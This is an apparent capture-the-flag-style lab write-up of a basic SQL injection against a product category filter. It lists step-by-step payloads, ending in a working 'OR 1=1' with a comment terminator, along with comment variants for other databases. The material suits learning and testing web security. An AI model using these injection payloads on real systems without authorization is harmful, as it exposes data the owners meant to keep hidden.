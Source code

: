 # SQL Injection Lab – **SHOW HIDDEN DATA**

A concise write‑up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**SHOW HIDDEN DATA** (all categories, including any hidden ones).

---

## ✅ My Exact Steps (Verbatim)

1. **Understanding the GOAL, SHOW HIDDEN DATA**

2. **My first step is always to click everywhere, spam the website with clicks.**

3. **i Found 2 urls, first i tried `productId=payload` and it didn't seem to click**

4. **in another url i found that `/filter?category=Gifts'` raising an error 500 - internal server error.**

5. **Fixing the issue: `/filter?category=Gifts''`**

6. **Connecting finding to our goal, we need to show all categories (some might be hidden)**

7. **Exploiting further: `/filter?category=Gifts'+or+1=1'` -> still raising an error.**

8. **Assumption: Query goes like this:**
   ```sql
   SELECT * FROM products WHERE category='Gifts'+or+1=1''
   ```

9. **SQL Raise en error because getting a literal string at the end (`''`)**

10. **Solution: We will try to comment the end of the line: `/filter?category=Gifts'+or+1=1+--+`**

11. **Lab Solved!**

---

## 🧠 Minimal Additions (Why This Works)

- The server likely builds a query like:
  ```sql
  SELECT * FROM products WHERE category = '<USER_INPUT>'
  ```
  When we send `Gifts'+or+1=1'`, we break out of `'Gifts'` and inject `OR 1=1` which makes the predicate **always true**.

- The error happens because there is an **extra trailing quote** (`''`). To avoid the parser error, we **comment out** the rest of the line.

- `--` is a SQL single‑line comment in many databases. It comments out everything **to the end of the line**. We add a trailing space after `--` so the server does not append any more tokens. In URLs, a space is often encoded as `+`, so `--+` ensures the comment is effective.

- `+` in these URLs represents a **space** (URL‑encoded space). So `or+1=1` is the same as `OR 1=1`.

---

## 🔧 Payloads I Used (Copy/Paste)

```text
/filter?category=Gifts'
/filter?category=Gifts''
/filter?category=Gifts'+or+1=1'
/filter?category=Gifts'+or+1=1+--+
```

> Use them in order; the last one is the **working** payload that reveals **all categories** (including hidden).

---

## 🧩 Notes

- If the backend trims/normalizes whitespace differently, you can also try comment variants like `-- -`, `--%20`, or inline comments (e.g., `/* ... */`) depending on DB flavor.
- The objective is to **neutralize** the remaining `'` and any **trailing syntax** the application appends to your input.

---

## 🏁 Result
All categories (visible + hidden) are shown. **Lab Solved. ✅**
